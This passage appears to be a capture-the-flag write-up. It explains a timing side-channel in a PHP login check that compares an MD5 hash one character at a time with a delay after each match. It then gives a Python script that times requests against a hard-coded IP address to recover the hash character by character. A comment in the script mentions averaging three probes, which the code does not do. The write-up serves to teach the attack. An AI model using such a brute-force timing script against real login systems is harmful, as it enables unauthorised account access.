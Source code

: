 *$hash* is value from DB and *$pass* is MD5 hash of password from login form. First check is the length - if the length of $pass not equals the length of $hash, validation returns false. So even if we spoofing login form (eg. via Burp Suite or ZAP) we still have to send 32 signs (MD5 hash).

Then script checks sign by sign if $hash and $pass are equal and it returns false right after first difference. If signs are the same, it waits 0.3 sec before next check. And this is exactly what we need to bruteforce this validation.

Assuming that any valid sign took about 0.3 sec break before next sign, we can compare requests time for every single character allowed in MD5 string starting from first character (any hex digit in this case). I've created simple Python script for this. It just creates 32 characters string starting from 0 through f and sending it to the server. Then we can check if there's character which causes a little bit longer response:

```python
#!/usr/bin/python

import requests
import sys

headers = {
    "Referer": "http://54.175.3.248:8089/",
    "Content-type": "application/x-www-form-urlencoded",
    "Host": "54.175.3.248:8089"
}


def send_request(current_password):
    payload = {"username": "~~FLAG~~", "password": current_password}

    r = requests.post("http://54.175.3.248:8089/premium.php", headers=headers,
                      data=payload)
    return r.elapsed.total_seconds()


charset = "abcdef0123456789"
final_password = sys.argv[1]

current_password = ""
s = ""
for c in charset:
    current_password = final_password + c + "-" * (31 - len(final_password))

    # send payload and check response time, avg from 3 probes
    print "sending payload with password: {}".format(current_password)

    t = send_request(current_password)
    print "time for {} - {}".format(c, t)

final_password += s
print "\n\ncurrent final password: {} ({} chars)\n\n".format(final_password,
                                                             len(
                                                                 final_password))

```
